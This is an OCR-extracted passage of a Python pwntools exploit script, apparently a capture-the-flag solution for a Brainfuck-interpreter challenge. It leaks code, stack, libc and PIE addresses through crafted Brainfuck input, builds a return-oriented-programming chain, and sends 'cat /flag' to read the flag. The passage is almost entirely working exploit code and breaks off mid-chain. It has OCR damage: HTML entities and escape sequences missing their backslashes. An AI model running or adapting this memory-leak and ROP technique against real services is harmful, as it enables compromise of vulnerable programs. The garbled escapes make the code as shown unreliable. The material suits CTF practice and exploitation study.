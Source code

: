 ```
        log.success(info + str(hex(return_address)))
    return return_address

def get_flag(sh):
    sh.sendline('cat /flag')
    return sh.recvrepeat(0.3)

def get_gdb(sh,gdbscript=None,stop=False):
    gdb.attach(sh,gdbscript=gdbscript)
    if stop :
        raw_input()

def Multi_Attack():
    # testnokill.__main__()
    return

def Attack(sh=None,ip=None,port=None):
    while True:
        try:
            sh = get_sh()
            # Your Code here
            sh.recvuntil('enter your code:' , timeout = 0.3)
            sh.sendline('+[&gt;.+],')
            sh.recvuntil('x00' * 0x3FF)
            code_low_addr = u64(sh.recv(1).ljust(8,'x00'))
            success("code low bit --&gt; " + str(hex(code_low_addr)))

            payload = code_low_addr + 0x20
            payload = p8((payload) &amp; 0xFF)
            sh.send(payload)
            sh.recvuntil("done! your code: ", timeout = 0.3)
            esp_addr = u64(sh.recv(6).ljust(8,'x00')) - 0x5C0
            info('ESP addr--&gt;'+str(hex(esp_addr)))

            sh.recvuntil('want to continue?' , timeout = 0.3)
            sh.send('y')

            sh.recvuntil('enter your code:' , timeout = 0.3)
            sh.sendline('+[&gt;.+],')
            sh.send(p8((code_low_addr + 0x38) &amp; 0xFF))
            sh.recvuntil("done! your code: ", timeout = 0.3)
            libc.address = u64(sh.recv(6).ljust(8,'x00')) + 0x00007fd6723b7000 - 0x7fd6723d8b97
            info('LIBC ADDRESS --&gt; ' + str(hex(libc.address)))

            sh.recvuntil('want to continue?' , timeout = 0.3)
            sh.send('y')

            sh.recvuntil('enter your code:' , timeout = 0.3)
            sh.sendline('+[&gt;.+],')
            sh.send(p8((code_low_addr + 0x30) &amp; 0xFF))
            sh.recvuntil("done! your code: ", timeout = 0.3)
            PIE_address = u64(sh.recv(6).ljust(8,'x00')) - 0x4980
            info('PIE ADDRESS --&gt; ' + str(hex(PIE_address)))

            # read(0,BSS+0x400,0x20)
            ROP_chain  = p64(libc.address + 0x000000000002155f)
            ROP_chain += p64(0)
            ROP_chain += p64(libc.address + 0x0000000000023e6a)
            ROP_chain += p64(PIE_address + bf.bss() + 0x400)
            ROP_chain += p64(libc.address + 0x0000000000001b96)
            ROP_chain += p64(0x20)
            ROP_chain += p64(libc.address + 0x00000000000439c8)
            ROP_chain += p64(0)
```